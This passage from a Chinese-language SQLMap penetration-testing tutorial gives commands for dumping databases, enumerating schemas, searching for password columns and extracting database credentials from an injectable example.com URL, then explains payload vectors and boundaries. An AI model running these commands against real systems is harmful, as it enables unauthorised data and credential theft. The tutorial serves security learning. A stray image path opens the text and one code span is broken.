 ```shell
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"
```

使用 `--dump-all` 开关，则会检索所有数据库中的所有内容：

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --dump-all
```

排除系统数据库：在这种情况下，建议包含 `--exclude-sysdbs` 开关：

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --dump-all --exclude-sysdbs
```

这将指示 SQLMap 跳过系统数据库内容的检索，因为这些内容通常对渗透测试人员的兴趣不大。系统数据库往往包含数据库管理相关的元数据，而非应用程序的业务数据，因此在大多数渗透测试场景中不是主要目标。

### 完整枚举结构

`--schema`可以做到检索所有表的结构，让我们全面了解结构。

```shell
sqlmap -u "http://www.example.com/?id=1" --schema
```

### 搜索你感兴趣的内容

我们可以使用`--search`选项搜索感兴趣的数据库、表和列。此选项允许我们使用 运算符搜索标识符名称`LIKE`。例如，如果我们要查找所有包含关键字 `user`的表名

```shell
sqlmap -u "http://www.example.com/?id=1" --search -T user
```

根据特定关键字`pass`搜索所有列名：

```shell
sqlmap -u "http://www.example.com/?id=1" --search -C pass
```

一旦我们确定了包含密码的表（例如`master.users`），我们就可以使用选项检索该表`-T

```shell
sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users
```

```shell
sqlmap -u "http://www.example.com/?id=1" --passwords --batch
```


## 攻击调优


在大多数情况下，SQLMap 只需提供目标详细信息就能正常运行。但也有选项可用于微调 SQLi 注入尝试，以帮助 SQLMap 在检测阶段。每个发送到目标的 payload 包含：

- **向量**（如 `UNION ALL SELECT 1,2,VERSION()`）：payload 的核心部分，携带要在目标执行的有用 SQL 代码
- **边界**（如 `<vector>-- -`）：前缀和后缀形式，用于将向量正确注入到易受攻击的 SQL 语句中

### 前缀/后缀
